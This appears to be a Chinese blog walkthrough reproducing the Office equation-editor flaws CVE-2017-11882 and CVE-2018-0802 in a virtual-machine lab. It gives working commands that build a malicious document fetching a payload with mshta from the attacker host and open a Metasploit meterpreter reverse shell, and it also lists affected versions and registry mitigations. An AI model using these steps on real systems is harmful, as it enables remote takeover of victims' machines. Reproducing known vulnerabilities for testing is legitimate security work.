





Office远程代码执行漏洞(CVE-2017-11882 & CVE-2018-0802)复现
本文最后更新于：2 年前
前言
在CVE-2017-11882之后，2018年1月份又出了一个新的“噩梦公式二代”，即CVE-2018-0802。这两个都属于栈溢出漏洞，都是对Equation Native 数据结构处理不当导致。
利用脚本地址: https://github.com/Ridter/RTF_11882_0802/
这两个CVE都可以利用这个脚本 ，在野样本嵌入了利用Nday漏洞和0day漏洞的2个公式对象同时进行攻击，Nday漏洞可以攻击未打补丁的系统，0day漏洞则攻击全补丁系统，绕过了CVE-2017-11882补丁的ASLR（地址随机化）安全保护措施，攻击最终将在用户电脑中植入恶意的远程控制程序。“噩梦公式二代”（CVE-2018-0802）所使用的0day漏洞堪称CVE-2017-11882的双胞胎漏洞，攻击样本中的一个漏洞针对未打补丁前的系统，另外一个漏洞针对打补丁后的系统，利用两个OLE同时进行攻击，黑客精心构造的攻击完美兼容了系统漏洞补丁环境的不同情况。
测试是否存在漏洞
python RTF_11882_0802.py -c”cmd.exe /c calc.exe” -o test.doc
打开test.doc 后如果未打补丁或存在漏洞 就会弹出计算器
本地测试环境:
虚拟机kali 作为攻击机: 192.168.103.152
虚拟机win7 作为被攻击机： 192.168.103.145
测试:
首先需要下载PS_shell.rb，将它放到msf路径下
/opt/metasploit-framework/embedded/framework/modules/exploits/windows/smb/PS_shell.rb
当然如果你的路径和我不一样，可以用locate自己找一下
接着就是启动msf

利用msf生成的脚本
use exploits/windows/smb/PS_shell
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.103.152 kali的ip
set uripath 123
exploit
如图:

接下来就利用github下载的脚本根据图上的信息 生成doc文件
python RTF_11882_0802.py -c”mshta http://192.168.103.152:8080/123" -o test.doc
在这里 我就直接将test.doc传上去了，实际渗透过程中 需要自己找到上传的点 并执行(不过现在常用的杀毒软件都会拦截了，要测试需要先关闭杀软)
打开文档后可以看到 msf里有一个session


可以看到这弹回来的时是当前用户

漏洞影响
MicrosoftOffice 2000
MicrosoftOffice 2003
MicrosoftOffice 2007 Service Pack 3
MicrosoftOffice 2010 Service Pack 2
MicrosoftOffice 2013 Service Pack 1
MicrosoftOffice 2016
解决方法
更新补丁
通过注册表禁用此模块
可通过修改注册表，禁用以下COM控件的方式进行缓解 xx.x是版本号
reg add “HKLM\SOFTWARE\Microsoft\Office\XX.X\Common\COMCompatibility{0002CE02-0000- 0000-C000-000000000046}” /v”Compatibility Flags” /t REG_DWORD /d 0×400
reg add”HKLM\SOFTWARE\Wow6432Node\Microsoft\Office\XX.X\Common\COMCompatibility{0002CE02-0000-0000-C000-000000000046}” /v”Compatibility Flags” /t REG_DWORD /d 0×400
本博客所有文章除特别声明外，均采用 CC BY-SA 4.0 协议 ，转载请注明出处！